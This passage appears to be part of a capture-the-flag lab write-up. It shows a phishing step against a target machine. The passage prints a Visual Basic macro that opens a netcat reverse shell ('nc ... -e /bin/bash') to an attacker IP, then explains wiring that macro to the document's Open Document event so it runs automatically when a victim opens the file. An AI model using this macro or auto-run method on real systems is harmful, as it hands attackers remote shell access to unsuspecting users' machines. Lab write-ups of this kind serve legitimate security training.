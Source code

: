 #### Step 1

The macros are written in Visual Basic. The following snippet will execute a shell command specified in the `sCmd` variable.

```
Sub Main()
    Dim sCmd As String
    Dim iRetVal As Integer
    
    sCmd = "nc 10.10.14.37 443 -e /bin/bash"
    
    ' Execute the system command
    iRetVal = Shell(sCmd, 1)
End Sub
```

![](../../../assets/Gofer-PHISH1.png)

After the macro was created, we had to configure the document to auto run the malicious macro when someone opens the document. It can be done by customizing the `Open Document` event.

![](../../../assets/Gofer-PHISH2.png)
